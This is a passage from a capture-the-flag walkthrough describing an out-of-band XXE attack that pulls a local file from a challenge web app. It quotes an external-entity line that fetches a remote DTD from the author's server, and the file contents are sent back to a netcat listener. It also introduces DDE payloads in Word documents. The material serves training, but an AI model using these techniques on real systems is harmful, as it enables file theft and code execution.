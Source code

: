 This looks confusing, but really a couple of things happen sequentially that clears it up:

* I add a DOCTYPE declaration (`<!DOCTYPE Elf [`)
* I define an external entity called "sp" that points to valid XML on my server (`<!ENTITY % sp SYSTEM "http://do.ropnop.com/ev.xml">`)
* I then tell the parser to fetch and "execute" the "sp" entity (`%sp;`). This is what actually initiates the first request to my server
* The parser then fetches and "executes" the "ev.xml" file, which defines the "data" entity as the local file "c:/greatbook.txt"
* It also defines the "param1" entity (which is just a string of more valid XML at this point)
* I then "execute" the "param1" entity (`%param1;`), which then defines the "exfil" entity. Since "data" was already defined as the contents of "greatbook.txt", it substitutes the contents of the file into the string
* Finally, I "execute" the final entity "exfil" (`&exfil;`), which makes one final request to my server with the contents of "file" in the URL string. This file doesn't exist so nothing happens after this, but I capture the request in my request log.

*Note: "execute" is really the wrong word when talking about XML Parsing, but it makes the most sense to me to think of it that way. Also, this will only work if the contents of the file don't contain illegal URL characters (which thankfully it doesn't)* 

I used Burp repeater to send the final payload:
![Malicious order.xml](/images/2018/01/eaas_malicious.png)

And on my netcat listener on my VPS I got the contents of the file:

![XXE Data Retrieval](/images/2018/01/xxe_data_in_request.png)

The contents of the file disclosed the URL for the next page of the great book: http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf

## Answer to Question 6
> The North Pole engineering team has introduced an Elf as a Service (EaaS) platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. Visit the system and retrieve instructions for accessing The Great Book page from C:\greatbook.txt. Then retrieve The Great Book PDF file by following those directions. What is the title of The Great Book page?

**The title of page 6 is "The dreaded inter-dimensional tornadoes"**

# Elf-Machine Interfaces
Despite the question for this challenge mentioning "complex SCADA systems", this really only involved some Windows client-side exploitation through a DDE attack in a Microsoft Word document. The hints for this challenge from Shinny Upatree mention that Alabaster has Microsoft Office installed, and discusses using the "Dynamic Data Exchange features for transferring data between applications and obtaining data from external data sources, including executables."

Using DDE payloads to get code execution through MS Office documents was a pretty big story a few months back, and quickly made its way into every pentester's bag of tricks. There's a great [blogpost here](https://null-byte.wonderhowto.com/how-to/hide-dde-based-attacks-ms-word-0180784/) outlining how to hide DDE payloads in a Word Document.
